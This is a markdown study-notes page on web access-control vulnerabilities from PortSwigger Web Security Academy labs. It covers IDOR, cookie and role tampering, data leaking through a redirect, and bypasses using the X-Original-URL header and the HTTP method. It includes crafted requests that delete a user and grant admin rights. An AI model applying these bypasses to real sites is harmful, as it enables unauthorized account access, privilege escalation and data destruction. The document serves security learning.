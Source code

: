 ### *Simple recon*
- Check `/robots.txt` for any pages that have been disallowed. Then, check the JavaScript of the page to see if an admin page URL is being dynamically generated.

- Find the username of another user, if the account page is `https://vulnerable-website.com?id=username`, you may be able to find a horizontal access control vulnerability by fuzzing for usernames. `https://vulnerable-website.com?id=FUZZ`
### *Query parameters & cookies*
- The admin page is only protected by a cookie, which can be modified to the role of 2. The response sets the cookie `Admin=false`. Change it to `Admin=true`.

- The user is set a `roleid` when signing up, and can be changed when doing an email change function through a POST request. You could fuzz this, then use a python script to go to the admin page, and check for any responses that stand out, in this example, `1` was the default user, and `2` was an administrator.
```
{
	"email":"email@email.com",
	"roleid": 2
}
```

- If there is an account page that is using query parameters with a GUID (Globally Unique Identifier) like `https://vulnerable-website.com/account?id=089ff591-a896-42b2-8915-21e241b56c66`. There may be another link that shows something else related to another user, in this case it is a list of their blog posts `https://vulnerable-website.com/blogs?userId=089ff591-a896-42b2-8915-21e241b56c66`. Now you can use the GUID from that URL to see their account page and access their API key.

- This example has an information disclosure vulnerability that can access the administrator's account simply by editing the query parameter to match the username of the administrator `https://vulnerable-website.com/account?id=administrator`. This gives a response that has the administrator's password in plain text, in the HTML for the password change functionality. This would be an example of horizontal (accessing another user's account) and vertical (gaining access to an administrator account with enhanced functionality).
### *Redirection information disclosure*
Try to access the account page of another user `https://vulnerable-website.com?id=carlos`, there may be a redirection that contains sensitive data, in this case, you can see carlos' API key.
```
HTTP/2 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3655

<!DOCTYPE html>
<html>
    <body>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account?id=wiener">My account</a><p>|</p>
                            <a href="/logout">Log out</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: carlos</p>
                        <div>Your API Key is: daGNL3eB3I5nz8zcAHffazwhVd7LCJg2</div><br/>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="YUbBIzS609wnOFRwOMOAMvx6SClS8W4J">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```
### *IDOR*
- A live chat feature has an IDOR vulnerability where you can fuzz for transcripts of other users chat's. `https://vulnerable-website.com/download-transcript/FUZZ.txt`
### *Platform misconfiguration*
#### X-Original-URL bypass header
This back-end framework supports the `X-Original-URL:` header. It is an HTTP header that can be used to attempt to bypass security filters by providing an alternative path for the request. It is not inherently supported or recognized by back-end frameworks out of the box; rather, its support or handling depends on how the back-end application is designed to process or respect custom HTTP headers.

In this example, I was able to bypass the access controls by overriding the normal `https://vulnerable-website.com/` request to go to `https://vulnerable-website.com/admin`, as I saw that it gave me an explicit "access denied" when trying to access `/admin` normally through the URL.

I intercepted a normal request to `/` and added: `X-Original-URL: /admin`
```
GET / HTTP/2
X-Original-URL: /admin
Host: vulnerable-website.com
Cookie: session=tc6t3XkQc4ulfujyESL7wK6UKllsrDtt
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

I was able to bypass the "access denied" error, then I saw I could delete a user, so I deleted the user, intercepted the request and I deleted the `/admin/deleteUser?username=carlos` from the URL, and added it to the request:
```
POST /?username=carlos HTTP/2
X-Original-URL: /admin/deleteUser
Host: vulnerable-website.com
Cookie: session=tc6t3XkQc4ulfujyESL7wK6UKllsrDtt
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

I added the `?username=carlos` to the normal request URL because I was getting an error saying "username parameter is required" when using `X-Original-URL: /admin/deleteUser?username=carlos`. 
#### *Method based bypass*
I was able to bypass an admin functionality which upgraded my account to admin status. Firstly, fuzz for directories. I found an endpoint `https://vulnerable-website.com/admin-roles`. This functionality upgrades or downgrades users, I was able to bypass a 401 unauthorized by changing the request method from a POST to a PUT. You may also have to fuzz for payloads e.g: `username=wiener&action=upgrade`.
```
PUT /admin-roles HTTP/2
Host: 0a230082033bd7c08069677c00ec0046.web-security-academy.net
Cookie: session=msbvgTE6HRvutTUncqL4pbZhehEgF4LT
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a230082033bd7c08069677c00ec0046.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a230082033bd7c08069677c00ec0046.web-security-academy.net
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener&action=upgrade
```
### *Resources*
https://portswigger.net/web-security/access-control